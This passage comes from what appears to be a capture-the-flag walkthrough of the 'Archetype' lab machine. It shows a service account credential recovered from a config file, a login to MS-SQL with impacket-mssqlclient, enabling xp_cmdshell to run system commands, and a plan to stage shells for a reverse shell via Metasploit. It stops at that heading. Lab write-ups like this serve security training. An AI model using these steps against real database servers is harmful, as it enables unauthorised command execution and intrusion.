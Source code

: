 From this we get the USER ID as `ARCHETYPE\sql_svc` and the password as `M3g4c0rp123`.

### Gain access to MS-SQL service using the credential from production data service configuration file.

#### Using impacket-mssqlclient&#x20;

```awk
impacket-mssqlclient ARCHETYPE/sql_svc@10.129.95.187 -windows-auth
```

This helps us to connect to the database after providing the password at the password prompt.

### Command injection via xp\_cmdshell

Using the given options from mssqlclient:

```
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

We can enable xp\_cmdshell using `enable_xp_cmdshell`, even though it is disabled by default.

After enabling it we can find the username that has access to the service:

```bash
SQL> xp_cmdshell "powershell -c whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL
```

Since we are in the `C:\Windows\system32` directory, we cannot make changes here as the Administrator can only make changes in this directory.

We can change to `C:\Users\Public` directory for downloading shells and privilege escalation executable.  Since there is no persistence we will have to use the `cd` command chained with other commands.

### Foot holding

Now that we can execute any arbitrary commands on the victim machine, we can get a firmer foothold on the victim server, aka, a reverse shell access. We can do this in two ways:

### Using metasploit and python HTTP server
